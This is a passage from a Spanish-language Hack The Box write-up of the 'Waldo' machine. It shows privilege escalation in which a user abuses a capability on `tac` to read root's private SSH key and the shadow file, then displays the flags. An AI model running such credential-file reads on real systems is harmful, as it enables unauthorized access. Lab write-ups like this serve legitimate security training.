<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/waldo/149google_gif_comedymanoverhype.gif" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Lo único es que se nos imprime al revés, pero con la misma herramienta podemos usar el parámetro `-s ,` (**s**eparado por **,**) y el programa nos lo muestra en el orden normal (***pero claro, nos aprovechamos de un feature, en todo caso si existiera algún problema podemos tomar el contenido, guardarlo en un archivo y volver a ejecutar `tac`, en ese caso lo mostraría ahora si con el orden correcto***)

```bash
monitor@waldo:/tmp$ cat hola.txt 
hola
si
nop
monitor@waldo:/tmp$ tac hola.txt -s ,
hola
si
nop
```

Bien, pues si podemos leer el archivo `shadow` podemos buscar si existe alguna llave privada para el usuario `root`:

```bash
monitor@waldo:/tmp$ tac /root/.ssh/id_rsa -s ,
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/waldo/149bash_monitorSH_tac_rootIdRSA.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

(EL TOOOOOOOOOOOOC de eso vacío e.e)

OPAAAAAAAAAAAAAAAAAA, exiiiiiste, pues copiémosla, generemos un archivo con ella e intentemos conectarnos como el usuario `root` al servicio `SSH`.

Después de varios intentos no logramos obtener una **Shell**, averiguando con mis contactos clandestinos (`s4dbrd` 💖) parece ser algo con lo que el creador quiso jugar (:(

E indagando en el sistema encontramos la razón:

```bash
monitor@waldo:/tmp$ cat /etc/ssh/sshd_config
...
PermitRootLogin no
...
```

Podríamos jugar con cracking contra el archivo `shadow`, pero de lo que probé se demoró demasiado, así que F.

Veamos las flags:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/waldo/149user_flag.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/waldo/149root_flag.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

...

Bonita máquina, medio loca, me gusto el **LFI**, bastante interesante.

El privesc fue movidito, el tema de **SSH** fue bastante curioso y entretenido. El jugar con esa capability algo bastante peligroso.

Por hoy no es más, descansamos un poco los ojos, miramos izquierda y derecha, estiramos las manos yyyyyy a seguir aprendiendo! ¡A romper todooooooooooOOO!!
